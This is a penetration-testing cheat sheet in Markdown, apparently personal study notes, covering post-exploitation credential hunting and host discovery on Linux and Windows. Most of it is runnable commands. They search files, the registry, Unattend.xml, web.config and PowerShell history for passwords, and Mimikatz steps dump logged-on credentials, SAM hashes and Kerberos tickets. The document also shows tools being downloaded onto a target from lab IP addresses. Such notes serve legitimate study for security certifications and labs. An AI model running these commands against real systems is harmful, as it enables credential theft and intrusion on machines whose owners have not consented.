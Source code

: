 ### Password Mining -
#### Linux
- Reference - [Linux Password Mining]([https://medium.com/@tinopreter/linux-password-mining-58e341635f1c](https://medium.com/@tinopreter/linux-password-mining-58e341635f1c))
- `ls /home/<user>/.ssh/`
	- By default, SSH searches for `id_rsa, id_ecdsa, id_ecdsa_sk, id_ed25519, id_ed25519_sk, and id_dsa` files. - [Reference](https://askubuntu.com/questions/30788/does-ssh-key-need-to-be-named-id-rsa)
- Search password in other files
	- `grep -r pass /home 2>/dev/null`
	- `grep -r pass /opt 2>/dev/null`
	- `grep -r pass /tmp 2>/dev/null`
	- `grep -r pass /etc 2>/dev/null`
	- `grep -r pass /var 2>/dev/null`
	    - Alternative command - `find /opt -type f -exec grep -i -I "pass" {} /dev/null;`
    - Sticky bit files - `find / -perm 1777 -type f 2>/dev/null`
- Extract password from memory
#### Windows
- Reference - [Windows Password Mining]([https://medium.com/@tinopreter/windows-password-mining-3a72205673ff](https://medium.com/@tinopreter/windows-password-mining-3a72205673ff))
- Search for file containing pass string
	- `findstr /si /m "pass" *.xml *.ini *.conf *.txt *.log *.bak`
- Search for files
	- `Get-ChildItem -Path <Path> -Include *.log,*.txt,*.bak,*.kdbx -File -Recurse -ErrorAction SilentlyContinue`
	- Alternative - `dir /s *.log,*.txt,*.bak,*.kdbx`
- Display lines containing “pass” string - `type "<file-name>" | Select-String -Pattern "pass"`
- Check for any Writable File
	- Alternative mass checking
	    - Files with `Everyone:(I)(F)` permission - `icacls "Path\To\Directory\*" 2>nul | findstr "(F)" | findstr "Everyone"`
        - Files with `BUILTIN\Users:(F)` permission (for all members of Users Group) - `icacls "Path\To\Directory\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"`
        - Files with `Everyone:(I)(M)` permission - `icacls "Path\To\Directory\*" 2>nul | findstr "(M)" | findstr "Everyone"`
        - Files with `BUILTIN\Users:(M)` permission (for all members of Users Group) - `icacls "Path\To\Directory\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users"`
    - Can use accesschk64.exe to check writable folders and files
	    - `accesschk64.exe -qwsu "Everyone" *`
        - `accesschk64.exe -qwsu "Authenticated Users" *`
        - `accesschk64.exe -qwsu "Users" *`
- Unattended Windows Installer - Single OS image mass installation on large machines. Such installation requires Administrator access, so might store credentials in following locations -
	- `C:\Unattend.xml`
    - `C:\Windows\Panther\Unattend.xml`
    - `C:\Windows\Panther\Unattend\Unattend.xml`
    - `C:\Windows\system32\sysprep.inf`
    - `C:\Windows\system32\sysprep\sysprep.xml`
- IIS Web Server - The configuration file i.e. web.config might store passwords for database or configured authentication mechanisms. They can be found -
	- `C:\inetpub\wwwroot\web.config`
    - `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`
    - Can perform this - `type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`
- Credentials stored in software PuTTY
	- `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`
- Powershell History
	- `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
- Software - Check if any password manager is in installed or uninstalled application list
	- `Get-ItemProperty  "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`
    - `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`
- Windows registry - Windows Registry is a database that contains configs and settings for windows and other applications installed on the system. Following commands display specific string occurances in registry -
	- `reg query HKLM /f password /t REG_SZ /s`
    - `reg query HKCU /f password /t REG_SZ /s`
- mimikatz.exe - [Mimikatz Hacktricks](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz)
	- `mimikatz> privilege::debug` - engage the SeDebugPrivilege privilege, which will allow us to interact with a process owned by another account
    - `mimikatz> token::elevate` - elevate your permissions
    - `mimikatz> sekurlsa::logonpasswords` - dump the credentials of all logged-on users
    - `mimikatz> lsadump::sam` - dump the SAM file hashes
    - `mimikatz> sekurlsa::tickets` - dump kerberos tickets from memory
- Get list of kerberos tickets for logged in user - `klist`
### Discovery -
#### Linux
- `id` → User Information
- `cat /etc/issue` → OS Information
- `uname -a` → Kernel Information
- `ls /home` → List user directory
- `ls -al /home/*` → all users basic contents
- `cat /etc/passwd` → System user information
- `cat /etc/hosts` → Host file
- `ss -ntplu` → Open ports
- `ps -ef` → Active processes
- `ip route` or `ifconfig /all` → IP Configuration
- `history` → Command history
- `printenv` → Environment Variables
- `cat /etc/iptables/rules.v4` → firewall rules
- `pspy64` - Continuous enumeration of processes - [pspy64](https://github.com/DominicBreuker/pspy)
- `linpeas.sh` - Automated Linux Enumeration - [linpeas](https://www.kali.org/tools/peass-ng/)
#### Windows
- `whoami /all` → Active user information
- `net user`  → List of users
	- `PS> Get-LocalUser | ft Name,Enabled,LastLogon` → Alternative with some extra information
- `dir C:\Users`  → List of user directory
- `PS> Get-LocalGroup` → Gives list of groups in system (Name, Description)
- `PS> Get-LocalGroupMember <group-name>` → Gives list of members in specified `<group-name>` (ObjectClass, Name, PrincipalSource)
- `systeminfo`  → System Information
- `ipconfig` or `ip route`  → IP configuration
- `route print`  → Routing table
- `netstat -ano`  → Open Ports
- `Get-Process` or `tasklist /svc`  → Enumerate process
- `Get-History`  → Enumerate history
- `Get-LocalGroupMembers <group-name>`
- `(Get-PSReadlineOption).HistorySavePath` → Powershell History File Path
- Watch-Command - stay
	- [Tutorial](https://wragg.io/watch-for-changes-with-powershell/), [Source](https://github.com/markwragg/PowerShell-Watch)
    - Download Watch-Command script from here - [Watch-Command.ps1](https://www.powershellgallery.com/packages/Watch/1.0.7/Content/Public%5CWatch-Command.ps1)
    - `PS> iwr -uri http://192.168.45.157/172/172-12/Watch-Command.ps1` -Outfile Watch-Command.ps1
    - `PS> Import-Module .\Watch-Command.ps1` → Import powershell script
    - `PS> Get-Process | Watch-Command -Diff -Cont -Verbose` → Perform watch on enumerating process
    - `PS> Get-Process -ErrorAction SilentlyContinue | Watch-Command -Diff -Cont -Verbose -Seconds 30` → Perform watch every 30 seconds on enumerating process
    - `PS> Get-Process backup -ErrorAction SilentlyContinue | Watch-Command -Diff -Cont -Verbose` → Perform watch on enumerating process and filter with backup processes
- winPEAS - Automated Windows Enumeration - [winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)
- Seatbelt - [Seatbelt Package]([https://github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt))
	- Seatbelt.exe → kinda similar to winPEAS, but more advanced (specifically for AD)
    - Reference - [Video](https://www.youtube.com/watch?v=8KJebvmd1Fk&t=1185s)
    - Build
	    - Go to Windows and clone seatbelt from - [https://github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)
        - Open Seatbelt.sln with Visual Studio
        - Change Debug dropdown in menu to Release
        - Select Build Solution from Build menu to get Seatbelt.exe
    - On executing Seatbelt.exe , we get error that executable is not a valid application for OS platform
	    - Solution - We should try uploading executable with different method, some of them are
	        - iwr, certutil, smbshare, curl (as per video this worked) (curl 10.10.10.169/seatbelt.exe -o seatbelt.exe), Net-Object Net.WebClient ...
	        - OR while building release of seatbelt → Right click seatbelt → select ‘Properties’ → Select .NET Framework 4 or 4.5  for Target framework
